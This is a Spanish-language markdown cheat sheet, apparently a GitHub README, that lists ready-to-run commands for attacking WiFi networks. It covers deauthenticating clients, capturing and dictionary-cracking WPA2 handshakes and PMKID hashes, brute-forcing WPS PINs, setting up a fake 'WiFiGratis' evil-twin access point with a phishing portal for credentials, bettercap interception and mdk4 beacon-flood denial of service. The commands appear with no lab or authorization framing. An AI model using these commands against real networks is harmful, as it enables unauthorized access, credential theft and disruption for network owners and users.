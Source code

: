 ## 🧨 Tabla de Comandos para Ataques WiFi

| Tipo de Ataque         | Herramienta      | Comando                                                                                  | Objetivo                                      |
|------------------------|------------------|------------------------------------------------------------------------------------------|-----------------------------------------------|
| 🔍 Reconocimiento       | `airodump-ng`     | `sudo airodump-ng wlan0`                                                                 | Escaneo pasivo de redes y clientes            |
|                        |                  | `sudo airodump-ng -c <CANAL> --bssid <BSSID> -w captura wlan0`                          | Captura dirigida a una red específica         |
| 💥 Deautenticación      | `aireplay-ng`     | `sudo aireplay-ng --deauth 10 -a <BSSID> wlan0`                                          | Expulsar a todos los clientes del AP          |
|                        |                  | `sudo aireplay-ng --deauth 10 -a <BSSID> -c <MAC_CLIENTE> wlan0`                         | Expulsar a un cliente específico              |
| 🎣 Captura de Handshake | `airodump-ng`     | *(igual que captura dirigida arriba)*                                                   | Recolectar handshake WPA2-PSK                 |
|                        | `aircrack-ng`     | `aircrack-ng -w rockyou.txt captura.cap`                                                 | Romper WPA2 con diccionario                   |
| 👻 Evil Twin (AP falsa) | `airbase-ng`      | `sudo airbase-ng -e "WiFiGratis" -c 6 wlan0`                                             | Crear punto de acceso falso                   |
|                        | `hostapd + dnsmasq`| *Configuración avanzada para portal cautivo (phishing)*                                  | Capturar credenciales                         |
| 🐍 MITM / Sniffing      | `bettercap`       | `sudo bettercap -iface wlan0mon`<br>`net.probe on`<br>`wifi.recon on`<br>`wifi.assoc <BSSID>` | Interceptar tráfico, escanear y asociarse     |
| 🔓 Ataque WPS          | `reaver`          | `sudo reaver -i wlan0mon -b <BSSID> -vv`                                                 | Fuerza bruta al PIN WPS                       |
| 🔓 Ataque PMKID        | `hcxdumptool`     | `sudo hcxdumptool -i wlan0 --enable_status=15 -o pmkid.pcapng`                           | Captura de hash PMKID WPA2                    |
|                        | `hcxpcapngtool`   | `hcxpcapngtool -o hash.22000 pmkid.pcapng`                                               | Convertir a formato Hashcat                   |
|                        | `hashcat`         | `hashcat -m 22000 hash.22000 rockyou.txt`                                                | Ataque por diccionario con GPU                |
| 💣 Beacon Flood / DoS  | `mdk4`            | `sudo mdk4 wlan0mon b -n "RedFalsa" -f`                                                  | Inundar con falsas redes SSID                 |
| 🪛 Inyección de paquetes| `aireplay-ng`     | `sudo aireplay-ng -9 wlan0mon`                                                           | Verificar si la tarjeta soporta inyección     |

---

## ⚙️ Extras de Configuración

| Paso                    | Comando                                                                 |
|-------------------------|-------------------------------------------------------------------------|
| Activar modo monitor    | `sudo ip link set wlan0 down && sudo iw wlan0 set monitor control && sudo ip link set wlan0 up` |
| O usar                  | `sudo airmon-ng start wlan0`                                            |
| Ver interfaces          | `iwconfig`                                                              |
| Desactivar modo monitor | `sudo airmon-ng stop wlan0mon`                                          |
